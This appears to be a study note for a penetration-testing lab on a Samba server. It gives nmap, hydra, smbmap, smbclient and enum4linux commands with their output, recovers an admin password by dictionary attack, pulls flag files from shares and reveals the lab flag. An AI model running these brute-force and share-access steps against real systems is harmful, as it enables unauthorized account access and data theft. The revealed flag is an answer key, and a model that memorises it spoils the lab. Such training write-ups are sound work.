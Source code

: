 # 🔬SAMBA

## Lab 1

>  🔬 [Samba Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=556)
>
>  - Target IP: `192.174.58.3`
>  - **Brute-force** of SAMBA service
>
>  - **Enumeration, brute-force, tools and flags** have been already covered in this [SMB Enum Lab 6](../../../assessment-methodologies/3-enumeration/smb-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.34.128.3
```

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
```

> 📌 Server is running SAMBA on the standard port `445`

### Brute-Force

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.34.128.3 smb
```

```bash
[445][smb] host: 192.34.128.3   login: admin   password: password1
```

![hydra admin](assets/image-20230319171607544.png)

### Login and Enumeration

- Use `SMBMap` tool

```bash
smbmap -H 192.34.128.3 -u admin -p password1
```

```bash
Disk  Permissions
----  -----------
shawn  READ, WRITE
nancy  READ ONLY
admin  READ, WRITE
IPC$   NO ACCESS
```

- Use `smbclient` tool to access Samba sources

```bash
smbclient -L 192.34.128.3 -U admin
```

```bash
smbclient //192.34.128.3/shawn -U admin
```

```bash
help
dir
# check files and folders in that share
```

```bash
smbclient //192.34.128.3/nancy -U admin
```

```bash
cd dir\
get flag
exit
```

```bash
smbclient //192.34.128.3/admin -U admin
```

```
cd hidden
get flag.tar.gz
exit
```

```bash
tar xzf flag.tar.gz
cat flag
```

- Use `enum4linux`tool

```bash
enum4linux -a 192.34.128.3
# a = enumerate all information
```

![](assets/image-20230319172449606.png)

```bash
enum4linux -a -u admin -p password1 192.34.128.3
```

![enum4linux part of response](assets/image-20230319172756465.png)



<details>
<summary>Reveal Flag:  🚩</summary>



`2727069bc058053bd561ce372721c92e`

</details>

------


